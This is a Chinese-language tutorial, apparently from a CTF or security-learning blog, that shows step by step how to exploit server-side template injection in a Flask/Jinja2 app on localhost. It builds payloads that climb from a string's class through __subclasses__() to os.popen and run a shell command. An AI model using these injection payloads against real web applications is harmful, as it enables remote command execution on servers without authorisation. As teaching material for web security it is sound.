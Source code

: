 ![image-20210428100711800](https://tva1.sinaimg.cn/large/008i3skNly1gq0s5v36mtj312l0hp47b.jpg)

利用方法

传参数{{"".\__class__}}获取字符串的类对象

```
name={{"".__class__}}
```



![image-20210428100933426](https://tva1.sinaimg.cn/large/008i3skNly1gq0s4riz62j30hm04xmxs.jpg)

寻找基类

```python
http://127.0.0.1:5000/login?name={{"".__class__.__mro__}}
```



![image-20210428101029449](https://tva1.sinaimg.cn/large/008i3skNly1gq0s3ni5bzj30n6039aam.jpg)

查看哪些类被进行了调用

```python
http://127.0.0.1:5000/login?name={{"".__class__.__mro__[1].__subclasses__()}}
```

![image-20210428101925790](https://tva1.sinaimg.cn/large/008i3skNly1gq0s5qvluzj313l0k9qei.jpg)

找到os类相关的类

![image-20210428111429770](https://tva1.sinaimg.cn/large/008i3skNly1gq0s4zofbvj30td05pt9j.jpg)

数字时才出来的，先猜100，找找位置，在往后，几次就猜出来了

查找到这样的子类，而这个字类又继承了os类

这个时候我们便可以利用.**init**.**globals**来找os类下的，init初始化类，然后globals全局来查找所有的方法及变量及参数。

![image-20210428115928954](https://tva1.sinaimg.cn/large/008i3skNly1gq0s6csjzcj31300ezgva.jpg)



构造payload

```python
{{''.__class__.__mro__[1].__subclasses__()[133].__init__.__globals__['popen']('ls').read()}}
```

![image-20210428120114807](https://tva1.sinaimg.cn/large/008i3skNly1gq0s6fd2x8j30wj03lwf0.jpg)

很显然命令被执行

参考博客：https://blog.csdn.net/zz_Caleb/article/details/96480967



## ctf中的一些绕过tips
